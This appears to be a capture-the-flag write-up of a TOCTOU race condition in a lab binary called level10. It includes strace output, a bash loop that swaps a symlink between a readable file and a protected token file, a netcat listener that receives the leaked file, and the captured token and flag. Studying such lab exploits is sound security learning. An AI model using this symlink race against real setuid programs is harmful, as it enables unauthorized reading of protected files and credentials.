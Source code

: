 # Level 10 - Exploit a TOCTOU vulnerability

## Vulnerability

This level exploits a Time-of-Check-to-Time-of-Use (TOCTOU) race condition vulnerability.

## Discovery & Analysis

Analyzing the binary using `strace`, we see the following sequence of system calls:
```bash
access("test2", R_OK) = 0
...
write(1, "Connecting to 192.168.122.99:696"..., 37Connecting to 192.168.122.99:6969 .. ) = 37
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("192.168.122.99")}, 16) = 0
write(3, ".*( )*.\n", 8) = 8
write(1, "Connected!\n", 11Connected!
) = 11
write(1, "Sending file .. ", 16Sending file .. ) = 16
openat(AT_FDCWD, "test2", O_RDONLY) = 4
```
The key vulnerability is the time gap between the permission check (`access()`) and the actual file opening (`open()`). If we can switch what the filepath points to during this gap, we can read files we don't have permission to access.

## Exploitation Method

### Step 1: Create necessary files

```bash
touch /tmp/myfile
chmod 777 /tmp/myfile

nano /tmp/run.sh
```

```bash
#!/bin/bash

while true; do
  # Switch the symbolic link to /tmp/myfile
  ln -sf /tmp/myfile /tmp/linkfile

  # Run the level10 program
  /home/user/level10/level10 /tmp/linkfile 127.0.0.1

  # Switch the symbolic link to the token file
  ln -sf /home/user/level10/token /tmp/linkfile
done
```

- `ln`: Creates links between files.

- `-s`: Creates a symbolic link (symlink) instead of a hard link. A symbolic link is like a shortcut that points to another file. They are useful here because they can quickly be redirected to point to different files.
- `-f`: Force flag. If the target file already exists, remove it before creating the link. This prevents error messages about files already existing.

```bash
chmod +x /tmp/run.sh
```

### Step 2: Set up a listener and run the scripts

In three separate terminals, run:

```bash
# Terminal 1: Start a netcat listener
nc -kl 6969

# Terminal 2: Run the program repeatedly
/tmp/run.sh
```

- `nc` is the netcat utility, a versatile networking tool
- `-l` puts netcat in "listen mode", making it act as a server
- The additional `-k` flag keeps the listener running after a client disconnects
- `6969` is the port number to listen on

After running the exploit, we captured the token from the token file:

```
woupa2yuojeeaaed06riuj63c
```

We used this token to log in as flag10 user:

```bash
su flag10
# Enter the token as password
getflag
# Output: Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Explanation

The exploit works because:

1. When `level10` calls `access()`, our symlink points to `/tmp/myfile` which we can access
2. Before `level10` calls `open()`, our script rapidly changes the symlink to point to the token file
3. When `open()` is called, it opens the token file instead, bypassing the permission check
4. The content is sent to our netcat listener

This is a classic race condition vulnerability where the system state changes between checking permissions and performing an operation.
